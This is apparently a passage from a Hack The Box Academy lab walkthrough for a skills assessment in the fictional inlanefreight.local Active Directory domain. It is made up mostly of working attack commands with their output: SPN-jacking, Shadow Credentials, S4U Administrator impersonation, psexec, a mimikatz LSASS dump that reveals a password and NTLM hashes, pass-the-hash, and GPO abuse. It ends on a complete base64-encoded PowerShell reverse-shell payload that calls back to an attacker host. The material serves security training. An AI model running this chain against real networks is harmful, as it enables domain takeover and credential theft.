Impacket v0.9.25.dev1+20230823.145202.4518279 - Copyright 2021 SecureAuth Corporation

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1203991204-2482992733-3322511772-1106)
[*]   ACE[6] info                
[*]     ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]     ACE flags                 : None
[*]     Access mask               : WriteProperty
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : Validated-SPN (f3a64788-5306-11d1-a9c5-0000f80367c1)
[*]     Trustee (SID)             : taino (S-1-5-21-1203991204-2482992733-3322511772-1106)
[*]   ACE[15] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : None
[*]     Access mask               : ReadControl, ReadProperties, ListChildObjects (0x20014)
[*]     Trustee (SID)             : taino (S-1-5-21-1203991204-2482992733-3322511772-1106)

(.dacledit) ┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~/impacket]
└──╼ [★]$ proxychains -q python3 examples/dacledit.py inlanefreight.local/taino:Adrian01 -principal taino -target 'db2000$'

Impacket v0.9.25.dev1+20230823.145202.4518279 - Copyright 2021 SecureAuth Corporation

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1203991204-2482992733-3322511772-1106)
[*]   ACE[0] info                
[*]     ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]     ACE flags                 : None
[*]     Access mask               : WriteProperty
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : Validated-SPN (f3a64788-5306-11d1-a9c5-0000f80367c1)
[*]     Trustee (SID)             : taino (S-1-5-21-1203991204-2482992733-3322511772-1106)
[*]   ACE[8] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : None
[*]     Access mask               : ReadControl, ReadProperties, ListChildObjects (0x20014)
[*]     Trustee (SID)             : taino (S-1-5-21-1203991204-2482992733-3322511772-1106)
```

In a new terminal tab, students will clone the `krbrelayx` repository:

Code: shell

```shell
cd ..;git clone https://github.com/dirkjanm/krbrelayx; cd krbrelayx
```

Skills Assessment

```shell-session
┌─[eu-academy-2]─[10.10.14.158]─[htb-ac-8414@htb-t5h3xsbsyd]─[~/impacket]
└──╼ [★]$ cd ..;git clone https://github.com/dirkjanm/krbrelayx; cd krbrelayx

Cloning into 'krbrelayx'...
remote: Enumerating objects: 202, done.
remote: Counting objects: 100% (51/51), done.
remote: Compressing objects: 100% (24/24), done.
remote: Total 202 (delta 33), reused 30 (delta 27), pack-reused 151
Receiving objects: 100% (202/202), 102.06 KiB | 34.02 MiB/s, done.
Resolving deltas: 100% (109/109), done.
```

Students will perform an `SPN-jacking` attack, starting with clearing the SPN on the `db2000$` computer account:

Code: shell

```shell
proxychains python3 addspn.py 172.19.99.10 -u 'inlanefreight.local\taino' -p Adrian01 -t 'DB2000$' --clear
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~/krbrelayx]
└──╼ [★]$ proxychains python3 addspn.py 172.19.99.10 -u 'inlanefreight.local\taino' -p Adrian01 -t 'DB2000$' --clear

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[-] Connecting to host...
[-] Binding to host
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.99.10:389  ...  OK
[+] Bind OK
[+] Found modification target
[+] Printing object before clearing
DN: CN=DB2000,CN=Computers,DC=inlanefreight,DC=local - STATUS: Read - READ TIME: 2024-05-22T09:21:28.967002
    sAMAccountName: DB2000$
    servicePrincipalName: MSSQLSvc/db2000
                          MSSQLSvc/db2000.inlanefreight.local

[+] SPN Modified successfully
```

Subsequently, they will re-add the SPN to the `SDE01$` computer account:

Code: shell

```shell
proxychains python3 addspn.py 172.19.99.10 -u 'inlanefreight.local\taino' -p Adrian01 -t 'SDE01$' --spn 'MSSQLSvc/db2000'
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~/krbrelayx]
└──╼ [★]$ proxychains python3 addspn.py 172.19.99.10 -u 'inlanefreight.local\taino' -p Adrian01 -t 'SDE01$' --spn 'MSSQLSvc/db2000'

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[-] Connecting to host...
[-] Binding to host
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.99.10:389  ...  OK
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
```

Students will perform `Shadow Credentials` attack based on the `GenericAll` right that the user `taino` has over `TAINOTEST$` using [pywhisker](https://github.com/ShutdownRepo/pywhisker). They will clone the repository, navigate to it, and perform the attack:

Code: shell

```shell
cd ..; git clone https://github.com/ShutdownRepo/pywhisker; cd pywhisker
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~/impacket]
└──╼ [★]$ cd ..; git clone https://github.com/ShutdownRepo/pywhisker; cd pywhisker

Cloning into 'pywhisker'...
remote: Enumerating objects: 164, done.
remote: Counting objects: 100% (20/20), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 164 (delta 10), reused 9 (delta 5), pack-reused 144
Receiving objects: 100% (164/164), 2.09 MiB | 56.34 MiB/s, done.
Resolving deltas: 100% (82/82), done.
```

Subsequently, they will proceed to add the shadow credential on the `TAINOTEST$` computer account while taking note of the PFX file name and the randomly generated password in the output of `pywhisker`:

Code: shell

```shell
proxychains python3 pywhisker.py --dc-ip 172.19.99.10 -d inlanefreight.local -u taino -p Adrian01 --target 'TAINOTEST$' --action add 
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~/pywhisker]
└──╼ [★]$ proxychains python3 pywhisker.py --dc-ip 172.19.99.10 -d inlanefreight.local -u taino -p Adrian01 --target 'TAINOTEST$' --action add 

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.99.10:389  ...  OK
[*] Searching for the target account
[*] Target user found: CN=TainoTest,CN=Computers,DC=inlanefreight,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: a3ed7f71-9d6c-ae12-6288-8fc8fe17a217
[*] Updating the msDS-KeyCredentialLink attribute of TAINOTEST$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 9JTvIs0T.pfx
[*] Must be used with password: PMop3VSRmuCOWSCVC3Hv
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Right after, students will proceed to clone the [PKINITtools](https://github.com/dirkjanm/PKINITtools) repository and utilize `gettgtpkinit.py` to request a ticket-granting ticket using the previously generated PFX file and password from the output of `pywhisker`:

Code: shell

```shell
cd ..; git clone https://github.com/dirkjanm/PKINITtools; cd PKINITtools
proxychains python3 gettgtpkinit.py -cert-pfx ../pywhisker/9JTvIs0T.pfx -pfx-pass PMop3VSRmuCOWSCVC3Hv inlanefreight.local/tainotest tainotest.ccache
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~/pywhisker]
└──╼ [★]$ cd ..; git clone https://github.com/dirkjanm/PKINITtools; cd PKINITtools
Cloning into 'PKINITtools'...
remote: Enumerating objects: 36, done.
remote: Counting objects: 100% (36/36), done.
remote: Compressing objects: 100% (25/25), done.
remote: Total 36 (delta 15), reused 28 (delta 9), pack-reused 0
Receiving objects: 100% (36/36), 25.31 KiB | 25.31 MiB/s, done.
Resolving deltas: 100% (15/15), done.

┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~/PKINITtools]
└──╼ [★]$ proxychains python3 gettgtpkinit.py -cert-pfx ../pywhisker/9JTvIs0T.pfx -pfx-pass PMop3VSRmuCOWSCVC3Hv inlanefreight.local/tainotest tainotest.ccache
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
2024-05-22 12:05:23,225 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-05-22 12:05:23,240 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  inlanefreight.local:88  ...  OK
2024-05-22 12:05:56,058 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-05-22 12:05:56,058 minikerberos INFO     69cec4b7535272632495eb981691b595d373a2ece0a19264fcfc0521e38e75b6
INFO:minikerberos:69cec4b7535272632495eb981691b595d373a2ece0a19264fcfc0521e38e75b6
2024-05-22 12:05:56,061 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Subsequently, students will use `getnthash.py` to recover the NT hash of the computer account while specifying the key obtained from the previous command:

Code: shell

```shell
KRB5CCNAME=tainotest.ccache proxychains python3 getnthash.py -key 69cec4b7535272632495eb981691b595d373a2ece0a19264fcfc0521e38e75b6 inlanefreight.local/tainotest
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~/PKINITtools]
└──╼ [★]$ KRB5CCNAME=tainotest.ccache proxychains python3 getnthash.py -key 69cec4b7535272632495eb981691b595d373a2ece0a19264fcfc0521e38e75b6 inlanefreight.local/tainotest
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.LOCAL:88  ...  OK
Recovered NT Hash
3f421a50fb86b83a8b1d5cd654147156
```

In a new terminal tab, students will clone [Impacket](https://github.com/fortra/impacket)'s repository, initiate a virtual environment, and install Impacket:

Code: shell

```shell
cd ..; git clone https://github.com/fortra/impacket impacket-latest; cd impacket-latest; python3 -m venv .latest; source .latest/bin/activate
python3 -m pip install .
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~/krbrelayx]
└──╼ [★]$ cd ..; git clone https://github.com/fortra/impacket impacket-latest; cd impacket-latest; python3 -m venv .latest; source .latest/bin/activate

Cloning into 'impacket-latest'...
remote: Enumerating objects: 23589, done.
remote: Counting objects: 100% (164/164), done.
remote: Compressing objects: 100% (121/121), done.
remote: Total 23589 (delta 87), reused 88 (delta 43), pack-reused 23425
Receiving objects: 100% (23589/23589), 10.20 MiB | 25.48 MiB/s, done.
Resolving deltas: 100% (17882/17882), done.

(.latest) ┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~/impacket-latest]
└──╼ [★]$ python3 -m pip install .
Processing /home/htb-ac-8414/impacket-latest
Collecting charset_normalizer
  Using cached charset_normalizer-3.3.2-cp39-cp39-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (142 kB)
Collecting flask>=1.0

<SNIP>

Running setup.py install for impacket ... done
Successfully installed Jinja2-3.1.4 MarkupSafe-2.1.5 Werkzeug-3.0.3 blinker-1.8.2 cffi-1.16.0 charset-normalizer-3.3.2 click-8.1.7 cryptography-42.0.7 dnspython-2.6.1 flask-3.0.3 future-1.0.0 impacket-0.12.0.dev1+20240521.182652.ced688ad importlib-metadata-7.1.0 itsdangerous-2.2.0 ldap3-2.9.1 ldapdomaindump-0.9.4 pyOpenSSL-24.1.0 pyasn1-0.6.0 pyasn1-modules-0.4.0 pycparser-2.22 pycryptodomex-3.20.0 six-1.16.0 zipp-3.18.2
```

Right after, students will request a service ticket using `getST.py` while specifying the SPN, the `Administrator` user to impersonate, the hash of the `TAINOTEST$` computer account, and the alternative service of `cifs/sde01.inlanefreight.local`:

Code: shell

```shell
proxychains -q python3 examples/getST.py -spn 'MSSQLSvc/db2000' -impersonate Administrator 'inlanefreight.local/tainotest$' -hashes :3f421a50fb86b83a8b1d5cd654147156 -dc-ip 172.19.99.10 -altservice "cifs/sde01.inlanefreight.local"
```

Skills Assessment

```shell-session
(.latest) ┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~/impacket-latest]
└──╼ [★]$ proxychains -q python3 examples/getST.py -spn 'MSSQLSvc/db2000' -impersonate Administrator 'inlanefreight.local/tainotest$' -hashes :3f421a50fb86b83a8b1d5cd654147156 -dc-ip 172.19.99.10 -altservice "cifs/sde01.inlanefreight.local"

Impacket v0.12.0.dev1+20240521.182652.ced688ad - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from MSSQLSvc/db2000@INLANEFREIGHT.LOCAL to cifs/sde01.inlanefreight.local@INLANEFREIGHT.LOCAL
[*] Saving ticket in Administrator@cifs_sde01.inlanefreight.local@INLANEFREIGHT.LOCAL.cc
```

Students will proceed to use the obtained ticket of the Administrator user with `psexec` to pass the ticket and grab the flag located at `C:\Users\Administrator\Desktop\`:

Code: shell

```shell
KRB5CCNAME=Administrator@cifs_sde01.inlanefreight.local@INLANEFREIGHT.LOCAL.ccache proxychains -q psexec.py Administrator@sde01.inlanefreight.local -k -no-pass
type C:\Users\Administrator\Desktop\flag.txt
```

Skills Assessment

```shell-session
.latest) ┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~/impacket-latest]
└──╼ [★]$ KRB5CCNAME=Administrator@cifs_sde01.inlanefreight.local@INLANEFREIGHT.LOCAL.ccache proxychains -q psexec.py Administrator@sde01.inlanefreight.local -k -no-pass

Impacket v0.12.0.dev1+20240521.182652.ced688ad - Copyright 2023 Fortra

[*] Requesting shares on sde01.inlanefreight.local.....
[*] Found writable share ADMIN$
[*] Uploading file grDNjTFq.exe
[*] Opening SVCManager on sde01.inlanefreight.local.....
[*] Creating service QqcU on sde01.inlanefreight.local.....
[*] Starting service QqcU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt
```

Answer: {hidden}

# Skills Assessment

## Question 2

### "Compromise RD09 and read the flag located at C:\Users\Administrator\Desktop\flag.txt"

Using the previously established session using `psexec` as the Administrator user, students will proceed to add the user `taino` to the `Local Administrators` group:

Code: shell

```shell
net localgroup Administrators taino /add
```

Skills Assessment

```shell-session
C:\Windows\system32> net localgroup Administrators taino /add
The command completed successfully.
```

Students will have to download `PowerView.ps1`, `Get-GPOEnumeration.ps1` and `mimikatz.exe` to be further transferred to the target machine:

Code: shell

```shell
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/Get-GPOEnumeration.ps1
locate mimikatz.exe
cp /usr/share/mimikatz/x64/mimikatz.exe .
```

Skills Assessment

```shell-session
┌─[eu-academy-2]─[10.10.14.158]─[htb-ac-8414@htb-ggygohmwhi]─[~]
└──╼ [★]$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

--2024-06-18 07:26:56--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 770279 (752K) [text/plain]
Saving to: ‘PowerView.ps1’

PowerView.ps1                                   100%[=====================================================================================================>] 752.23K  --.-KB/s    in 0.004s  

2024-06-18 07:26:56 (175 MB/s) - ‘PowerView.ps1’ saved [770279/770279]

┌─[eu-academy-2]─[10.10.14.158]─[htb-ac-8414@htb-ggygohmwhi]─[~]
└──╼ [★]$ wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/Get-GPOEnumeration.ps1

--2024-06-18 07:28:08--  https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/Get-GPOEnumeration.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7262 (7.1K) [text/plain]
Saving to: ‘Get-GPOEnumeration.ps1’

Get-GPOEnumeration.ps1                          100%[=====================================================================================================>]   7.09K  --.-KB/s    in 0s      

2024-06-18 07:28:08 (104 MB/s) - ‘Get-GPOEnumeration.ps1’ saved [7262/7262]

┌─[eu-academy-2]─[10.10.14.158]─[htb-ac-8414@htb-ggygohmwhi]─[~]
└──╼ [★]$ locate mimikatz.exe

/usr/share/mimikatz/Win32/mimikatz.exe
/usr/share/mimikatz/x64/mimikatz.exe

┌─[eu-academy-2]─[10.10.14.158]─[htb-ac-8414@htb-ggygohmwhi]─[~]
└──╼ [★]$ cp /usr/share/mimikatz/x64/mimikatz.exe .
```

Subsequently, using the previously established RDP session, students will open `PowerShell` as Administrator. They will have to submit the credentials of the user `taino` once prompted, change their current working directory to their home directory, and transfer both `PowerView.ps1`, `Get-GPOEnumeration.ps1` and `mimikatz.exe`:

Code: powershell

```powershell
cd ~
copy \\TSCLIENT\student\PowerView.ps1 .
copy \\TSCLIENT\student\Get-GPOEnumeration.ps1 .
copy \\TSCLIENT\student\mimikatz.exe .
```

Skills Assessment

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd ~
PS C:\Users\taino> copy \\TSCLIENT\student\PowerView.ps1 .
PS C:\Users\taino> copy \\TSCLIENT\student\Get-GPOEnumeration.ps1 .
PS C:\Users\taino> copy \\TSCLIENT\student\mimikatz.exe .
```

Right after, they will proceed to import `PowerView`, and `Get-GPOEnumeration` and enumerate the Group Policy Object create rights in the domain while taking note of the user that has the ability to links GPOs:

Code: powershell

```powershell
Import-Module .\PowerView.ps1
Import-Module .\Get-GPOEnumeration.ps1
Get-GPOEnumeration -CreateGPO
Get-GPOEnumeration -LinkGPOs
```

Skills Assessment

```powershell-session
PS C:\Users\taino> Import-Module .\PowerView.ps1
PS C:\Users\taino> Import-Module .\Get-GPOEnumeration.ps1
PS C:\Users\taino> Get-GPOEnumeration -CreateGPO

Searching for non-admin users with rights to create GPOs...
INLANEFREIGHT\angel

PS C:\Users\taino> Get-GPOEnumeration -LinkGPOs

Searching for users with rights to Link GPOs to Sites, Domains, and OUs...

Level       : Site
ObjectDN    : CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=inlanefreight,DC=local
ResolvedSID : INLANEFREIGHT\tangui

Level       : OU
ObjectDN    : OU=Countries,DC=inlanefreight,DC=local
ResolvedSID : INLANEFREIGHT\manuel
```

Students will proceed to dump the LSASS process to obtain the NTLM hash of the user `angel`:

Code: powershell

```powershell
.\mimikatz.exe "sekurlsa::logonpasswords" exit
```

Skills Assessment

```powershell-session
PS C:\Users\taino> .\mimikatz.exe "sekurlsa::logonpasswords" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::logonpasswords

<SNIP>

Authentication Id : 0 ; 160479 (00000000:000272df)
Session           : Batch from 0
User Name         : angel
Domain            : INLANEFREIGHT
Logon Server      : DC04
Logon Time        : 5/22/2024 5:50:35 AM
SID               : S-1-5-21-1203991204-2482992733-3322511772-1108
        msv :
         [00000003] Primary
         * Username : angel
         * Domain   : INLANEFREIGHT
         * NTLM     : 948575451312938596ac1f7f7d33877e
         * SHA1     : 1aa58b3d240964712a478fff9de3a9e72d58125e
         * DPAPI    : 497cd40d282278a1bea3a0669527abac
        tspkg :
        wdigest :
         * Username : angel
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : angel
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : Ilovebaseball01
        ssp :
        credman :
<SNIP>
```

Subsequently, they will utilize the NTLM hash of the user to perform Pass-the-Hash attack, spawning a new `PowerShell` window:

Code: powershell

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:angel /domain:inlanefreight.local /rc4:948575451312938596ac1f7f7d33877e /run:powershell.exe"
```

Skills Assessment

```powershell-session
PS C:\Users\taino> .\mimikatz.exe "privilege::debug" "sekurlsa::pth /user:angel /domain:inlanefreight.local /rc4:948575451312938596ac1f7f7d33877e /run:powershell.exe"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::pth /user:angel /domain:inlanefreight.local /rc4:948575451312938596ac1f7f7d33877e /run:powershell.exe
user    : angel
domain  : inlanefreight.local
program : powershell.exe
impers. : no
NTLM    : 948575451312938596ac1f7f7d33877e
  |  PID  6364
  |  TID  2536
  |  LSA Process is now R/W
  |  LUID 0 ; 3143914 (00000000:002ff8ea)
  \_ msv1_0   - data copy @ 00000236E7F701A0 : OK !
  \_ kerberos - data copy @ 00000236E7EE61E8
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 00000236E7F1DC98 (32) -> null
```

Within the newly spawned window, students will change their current working directory to `C:\Users\taino`, import `PowerView`, and create a new Group Policy Object named `AngelGPO` in the domain:

Code: powershell

```powershell
cd C:\Users\taino
Import-Module .\PowerView.ps1
New-GPO -Name "AngelGPO" -Verbose
```

Skills Assessment

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\Users\taino
PS C:\Users\taino> Import-Module .\PowerView.ps1
PS C:\Users\taino> New-GPO -Name "AngelGPO" -Verbose
VERBOSE: Create a GPO named "AngelGPO" in the inlanefreight.local domain. (New-GPO)


DisplayName      : AngelGPO
DomainName       : inlanefreight.local
Owner            : INLANEFREIGHT\angel
Id               : e44447b5-9a15-4c4e-a025-e434c05d35eb
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 5/22/2024 6:56:23 AM
ModificationTime : 5/22/2024 6:56:25 AM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```

Students will download SharpGPOAbuse from GitHub:

Code: shell

```shell
wget -q https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~]
└──╼ [★]$ wget -q https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```

Subsequently, they will upload the `SharpGPOAbuse.exe` binary onto the target:

Code: powershell

```powershell
copy \\TSCLIENT\student\SharpGPOAbuse.exe .
```

Skills Assessment

```powershell-session
PS C:\Users\taino> copy \\TSCLIENT\student\SharpGPOAbuse.exe .
```

Students will proceed to utilize the tool to add the user `angel` as a `Local Administrator` using the previously generated GPO:

Code: powershell

```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount angel --GPOName "AngelGPO"
```

Skills Assessment

```powershell-session
PS C:\Users\taino> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount angel --GPOName "AngelGPO"

[+] Domain = inlanefreight.local
[+] Domain Controller = DC04.inlanefreight.local
[+] Distinguished Name = CN=Policies,CN=System,DC=inlanefreight,DC=local
[+] SID Value of angel = S-1-5-21-1203991204-2482992733-3322511772-1108
[+] GUID of "AngelGPO" is: {E44447B5-9A15-4C4E-A025-E434C05D35EB}
[+] Creating file \\inlanefreight.local\SysVol\inlanefreight.local\Policies\{E44447B5-9A15-4C4E-A025-E434C05D35EB}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

Students will query the `scriptPath` property of the user `manuel` using `Get-DomainUser` cmdlet:

Code: powershell

```powershell
Get-DomainUser manuel -Properties scriptPath
```

Skills Assessment

```powershell-session
PS C:\Users\taino> Get-DomainUser manuel -Properties scriptPath

scriptpath
----------
sample.vbs
```

Enumerating further the permissions over the `sample.vbs` VBScript file located in `NETLOGON` of the domain controller, students will come to know that authenticated users have read and execute permissions over it:

Code: powershell

```powershell
ls $env:LOGONSERVER\NETLOGON
icacls $env:LOGONSERVER\NETLOGON\sample.vbs
```

Skills Assessment

```powershell-session
PS C:\Users\taino> ls $env:LOGONSERVER\NETLOGON


    Directory: \\DC04\NETLOGON


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/29/2024   6:55 PM            101 sample.vbs


PS C:\Users\taino> icacls $env:LOGONSERVER\NETLOGON\sample.vbs
\\DC04\NETLOGON\sample.vbs NT AUTHORITY\Authenticated Users:(I)(RX)
                           S-1-5-32-549:(I)(RX)
                           BUILTIN\Administrators:(I)(F)
                           NT AUTHORITY\SYSTEM:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```

Upon reviewing the contents of the file, students will find out that it utilizes `WScript` used as an automation mechanism that will periodically run a batch script named `clearcache.bat` which is located at the `\\SDE01\Shared` directory:

Code: powershell

```powershell
type $env:LOGONSERVER\NETLOGON\sample.vbs
```

Skills Assessment

```powershell-session
PS C:\Users\taino> type $env:LOGONSERVER\NETLOGON\sample.vbs

Set objShell = CreateObject("WScript.Shell")
objShell.Run "\\SDE01\Shared\clearcache.bat", 0, True
```

Subsequently, students will proceed to enumerate the permissions of that file located at `\\SDE01\Shared\clearcache.bat` or the equivalent path `C:\Shared\inetpub\Shared\clearcache.bat`, where they will come to know that every user on the system (machine) has read and execute, while `NT AUTHORITY\SYSTEM` has full access:

Code: powershell

```powershell
icacls \\SDE01\Shared\clearcache.bat
```

Skills Assessment

```powershell-session
PS C:\Users\taino> icacls \\SDE01\Shared\clearcache.bat
\\SDE01\Shared\clearcache.bat Everyone:(I)(RX)
                              NT AUTHORITY\SYSTEM:(I)(F)
                              BUILTIN\Administrators:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```

They will create a base64 encoded reverse shell payload:

Code: shell

```shell
python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "PWNIP"; $LPORT = PWNPO; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-rwjypfotdu]─[~]
